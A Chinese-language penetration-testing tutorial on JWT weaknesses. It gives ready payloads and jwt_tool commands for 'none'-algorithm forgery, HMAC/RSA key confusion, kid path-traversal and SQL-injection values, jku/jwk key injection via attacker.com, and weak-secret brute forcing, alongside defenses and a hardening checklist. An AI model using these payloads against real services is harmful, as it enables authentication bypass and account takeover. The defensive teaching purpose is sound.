



## 前言

JSON Web Token（JWT）是现代Web应用中最广泛使用的身份认证和授权机制之一，采用紧凑的、自包含的JSON格式在各方之间安全传输声明（claims）。然而正因其广泛使用，JWT也成为攻击者的重点关注对象。本文深入探讨JWT的底层结构、常见攻击面及利用手法，并提供渗透测试中可操作的工具指南。

---

## 一、JWT结构解析

一个JWT由三部分组成，以点号（`.`）分隔：**header.payload.signature**

### 1.1 Header（头部）

头部包含算法（`alg`）和令牌类型（`typ`）两个字段：

```json
{ "alg": "RS256", "typ": "JWT" }
```

常见签名算法：
- **HS256**：基于共享密钥的对称算法
description: JWT 安全——none 算法绕过、HMAC/RSA 密钥混淆与 kid/jku 参数注入。
- **RS256**：基于公私钥对的非对称算法
- **ES256**：基于椭圆曲线的非对称算法
- **none**：无签名（绝不应在生产环境使用）

### 1.2 Payload（载荷）

载荷包含关于实体（通常是用户）的声明数据：

```json
{
  "sub": "1234567890", "name": "John Doe",
  "iat": 1516239022, "exp": 1516242622, "admin": false
}
```

- **Registered claims**：预定义声明，如 `iss`（签发者）、`sub`（主题）、`exp`（过期时间）
- **Private claims**：双方协商使用的自定义声明

### 1.3 Signature（签名）

签名验证消息未被篡改，并验证发送方身份：

```
# HMAC: HMACSHA256(base64(header) + "." + base64(payload), secret)
# RSA:  RSASHA256(base64(header) + "." + base64(payload), pubKey, privKey)
```

### 1.4 JWT工作流程



---

## 二、常见JWT攻击手法

### 2.1 None算法绕过

**原理**：JWT标准支持 `alg: "none"` 表示不签名。若JWT库未严格校验算法白名单，当遇到 `alg: "none"` 时会直接跳过签名验证。

**攻击步骤**：

1. 获取有效JWT，将header中 `alg` 改为 `none`
2. 修改payload中权限字段（如 `admin: true`）
3. 移除signature部分，保留末尾点号

```bash
# 解码原始JWT header
echo "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9" | base64 -d
# 输出: {"alg":"HS256","typ":"JWT"}

# 构造none算法JWT
# header: {"alg":"none","typ":"JWT"} => eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0
# payload: {"sub":"admin","admin":true} => eyJzdWIiOiJhZG1pbiIsImFkbWluIjp0cnVlfQ
# 最终JWT: eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0.eyJzdWIiOiJhZG1pbiIsImFkbWluIjp0cnVlfQ.
```

**防御**：在JWT验证库中显式禁用 `none` 算法，维护算法白名单。

### 2.2 HMAC/RSA密钥混淆攻击

**原理**：当服务器使用RSA公钥验证 `RS256` JWT时，攻击者可将算法切换为 `HS256`，并利用**公开的RSA公钥**作为HMAC共享密钥进行签名。由于公钥通常可通过 `/.well-known/jwks.json` 等途径获取，攻击路径可行。



**攻击命令**：

```bash
# 提取服务端公钥
curl -s https://target.com/.well-known/jwks.json | jq -r '.keys[0].x5c[0]' \
  | base64 -d | openssl x509 -inform der -pubkey -noout > pubkey.pem

# 使用jwt_tool进行密钥混淆攻击
python3 jwt_tool.py <JWT> -X k -pk pubkey.pem
```

**防御**：JWT库必须严格区分对称算法（HS系列）和非对称算法（RS/ES系列）的密钥类型。

### 2.3 kid头部注入

**原理**：`kid`（Key ID）字段指示验证签名所用的密钥。部分实现将其直接拼接到文件路径读取密钥，若未过滤特殊字符，可触发路径遍历。

**攻击场景一 — 路径遍历**：

```json
{ "alg": "HS256", "typ": "JWT", "kid": "../../../../etc/passwd" }
```

将 `/etc/passwd` 内容作为HMAC密钥签名，或读取 `/dev/null` 后用空字符串签名：

```bash
python3 jwt_tool.py <JWT> -I -pc admin -pv true -S hs256 -p ""
```

**攻击场景二 — SQL注入**（当 `kid` 用于数据库查询时）：

```json
{ "alg": "HS256", "kid": "1' UNION SELECT 'hacked'--" }
```

**防御**：对 `kid` 值做白名单校验，禁止 `../` 等特殊字符，使用密钥映射表而非路径拼接。

### 2.4 JKU/JWK头部注入

**原理**：`jku` 指向一个JWKS端点URL，`jwk` 直接在header嵌入公钥。若服务端信任这些字段，攻击者可注入自控密钥。

**jku攻击**：

```json
{ "alg": "RS256", "typ": "JWT", "jku": "https://attacker.com/jwks.json" }
```

**jwk攻击**——直接在header嵌入攻击者生成的公钥：

```json
{
  "alg": "RS256", "typ": "JWT",
  "jwk": { "kty": "RSA", "e": "AQAB", "n": "0vx7ag...攻击者模数..." }
}
```

**利用命令**：

```bash
# jku注入：托管恶意jwks.json，指向攻击者URL
python3 jwt_tool.py <JWT> -X s -u https://attacker.com/jwks.json

# jwk注入：自动生成密钥对并嵌入header
python3 jwt_tool.py <JWT> -X i
```

**防御**：禁用 `jku`/`jwk` header，或维护可信jku域名白名单；始终使用服务端预配置密钥。

---

## 三、渗透测试工具实战

### 3.1 jwt_tool 核心用法

[jwt_tool](https://github.com/ticarpi/jwt_tool) 是最全面的JWT渗透测试工具，覆盖漏洞扫描、篡改、签名绕过和密钥攻击。

**安装**：

```bash
git clone https://github.com/ticarpi/jwt_tool.git && cd jwt_tool
pip install -r requirements.txt
```

**模式速查表**：

| 模式 | 功能 | 命令 |
|------|------|------|
| 解码 | 查看JWT内容 | `python3 jwt_tool.py <JWT>` |
| 扫描 | 自动检测漏洞 | `python3 jwt_tool.py <JWT> -t URL -rc "jwt=<JWT>" -M at` |
| 篡改 | 交互式修改payload | `python3 jwt_tool.py <JWT> -I` |
| 伪造 | 指定密钥签名 | `python3 jwt_tool.py <JWT> -S hs256 -p "secret"` |
| None | 切换为none算法 | `python3 jwt_tool.py <JWT> -X a` |
| 混淆 | 密钥类型混淆 | `python3 jwt_tool.py <JWT> -X k -pk public.pem` |
| 爆破 | 弱密钥破解 | `python3 jwt_tool.py <JWT> -C -d wordlist.txt` |
| Playbook | 自动化攻击链 | `python3 jwt_tool.py <JWT> -t URL -M pb` |

**完整测试流程**：

```bash
# 1. 基本信息与漏洞扫描
python3 jwt_tool.py eyJ... -t https://target.com/api -rc "Authorization: Bearer eyJ..." -M at

# 2. 交互式修改权限字段
python3 jwt_tool.py eyJ... -I -pc role -pv admin

# 3. 尝试none算法绕过
python3 jwt_tool.py eyJ... -X a

# 4. 密钥混淆攻击
python3 jwt_tool.py eyJ... -X k -pk pubkey.pem

# 5. 弱密钥暴力破解
python3 jwt_tool.py eyJ... -C -d /usr/share/wordlists/rockyou.txt
```

### 3.2 Burp Suite — JWT Editor

JWT Editor 是 Burp 扩展（BApp Store 安装），可在 Proxy/Repeater 中识别、解码和修改 JWT。

**核心功能**：

1. **自动标签页**：Proxy 历史中高亮 JWT，提供可视化 Editor 面板
2. **嵌入式编辑**：在 Repeater 中直接修改 header/payload
3. **密钥管理**：支持添加 RSA/JWK 密钥用于签名验证
4. **快捷攻击**：一键切换 `none` 算法、注入 Embedded JWK、使用托管密钥签名

**Burp攻击工作流**：



### 3.3 其他辅助工具

- **jwt-cracker**：轻量级弱密钥暴力破解（纯JavaScript实现）
- **PyJWT**：Python库，适合编写自定义攻击脚本
- **CyberChef**：在线/离线快速JWT编解码与分析

---

## 四、JWT Payload敏感信息泄露

JWT 默认**仅签名不加密**（除非使用 JWE），任何人都可 Base64 解码 payload。

### 4.1 常见泄露场景

```json
{
  "sub": "user-12345",
  "email": "admin@company.com",
  "password": "cleartext_hunter2",
  "ssn": "123-45-6789",
  "role": "superadmin",
  "ldap_dn": "CN=Admin,OU=VIP,DC=internal,DC=corp",
  "internal_user_level": 5,
  "tenant_id": "ent-b8a3-2021q4"
}
```

### 4.2 信息收集价值

- **`kid`**：可推断密钥命名规范和存储位置
- **`iss`**：暴露内部域名或微服务名
- **`iat` / `exp`**：判断令牌生命周期和服务器时钟偏差
- **自定义claim**：泄露内部字段命名约定（`internal_user_level`、`tenant_id`）

### 4.3 加固建议

1. 仅存储最小必要声明，不存储密码、身份证号等敏感数据
2. 敏感信息使用 JWE（JSON Web Encryption）加密
3. 使用不透明引用令牌（reference token）替代自包含令牌
4. 设定短过期时间（15分钟），配合 refresh token 轮换

---

## 五、防御加固Checklist

| 措施 | 说明 | 优先级 |
|------|------|--------|
| 算法白名单 | 显式指定允许的 `alg`，拒绝 `none` | 高 |
| 密钥类型隔离 | HS密钥仅用于HMAC，RS密钥仅用于RSA | 高 |
| 禁用危险header | 禁止 `jku`、`jwk` 等外部密钥引用 | 高 |
| kid白名单 | 使用映射表，禁止路径拼接 | 中 |
| 强密钥 | HMAC >= 256位，RSA >= 2048位 | 中 |
| 短有效期 | Access token 15min，Refresh token 轮换 | 中 |
| 加密Payload | 敏感数据使用JWE或不透明令牌 | 中 |
| 库更新 | 跟踪JWT库CVE公告 | 低 |
| 日志监控 | 监控签名失败和异常算法切换 | 低 |

---

## 结语

JWT 的安全高度依赖正确的实现与配置，攻击面集中在算法混淆、密钥来源信任和签名验证逻辑三个方向。渗透测试人员应熟练使用 jwt_tool 和 Burp JWT Editor，开发人员则应在设计和代码审查阶段将防御措施纳入考量。跟踪JWT库安全公告、定期审计令牌处理逻辑，才能在高强度对抗中保持主动。

---

## 免责声明

> 本文所述技术仅用于授权的安全评估、渗透测试及安全研究。未经系统所有者明确授权，对任何系统进行测试均可能违反法律法规。作者及发布平台不对读者基于本文内容的行为及其后果承担责任。使用者应确保其行为符合其所在地区的法律法规及行业规范。

---

## 参考资料

1. [RFC 7519 — JSON Web Token](https://tools.ietf.org/html/rfc7519)
2. [PortSwigger — JWT Attacks](https://portswigger.net/web-security/jwt)
3. [jwt_tool GitHub](https://github.com/ticarpi/jwt_tool)
4. [OWASP — JWT Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/JSON_Web_Token_for_Java_Cheat_Sheet.html)
5. [HackTricks — JWT](https://book.hacktricks.xyz/pentesting-web/hacking-jwt-json-web-tokens)
